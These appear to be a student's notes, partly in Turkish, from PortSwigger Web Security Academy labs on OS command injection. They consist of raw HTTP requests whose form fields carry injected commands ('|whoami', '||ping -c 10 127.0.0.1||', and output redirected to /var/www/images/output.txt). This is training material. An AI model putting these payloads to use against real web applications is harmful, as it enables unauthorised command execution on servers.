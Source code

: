 # OS Command İnjection

POST /product/stock HTTP/2
Host: 0aae003104c870bc8028f88c0004007c.web-security-academy.net
Cookie: session=fSpUfeKTqjgNuR5I8VTgnH5RMQsrSoy7
Content-Length: 27
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: tr-TR,tr;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Origin: https://0aae003104c870bc8028f88c0004007c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aae003104c870bc8028f88c0004007c.web-security-academy.net/product?productId=4
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
 
productId=4&storeId=1|whoami


-- 

- bir submit feedback gönder

POST /feedback/submit HTTP/2
Host: 0a0a009b03c7e17082b07f5100e80039.web-security-academy.net
Cookie: session=BWm8DHMMdQj94thbQv4U3fodYL2mgw7v
Content-Length: 88
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: tr-TR,tr;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a0a009b03c7e17082b07f5100e80039.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0a009b03c7e17082b07f5100e80039.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
 
csrf=79Rg6FG7744BVzNqa4U0TXNMubwKHDWE&name=aa&email=x||ping+-c+10+127.0.0.1||&
subject=aa&message=aa


--


POST /feedback/submit HTTP/2
Host: 0ad800970442f41882cc47d900de001c.web-security-academy.net
Cookie: session=OEgjRiylY6EZsYy1vkbCax0zTbfcPoes
Content-Length: 88
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: tr-TR,tr;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Origin: https://0ad800970442f41882cc47d900de001c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad800970442f41882cc47d900de001c.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
 
csrf=hKhdqGFo5fbvVUk0DEP4VDGnUIHn9dLg&name=aa&email=||whoami>/var/www/images/output.txt||&subject=aa&message=aa

bir foto yükleme istedği yakalayıp filename=output.txt yapıyoruz.


--



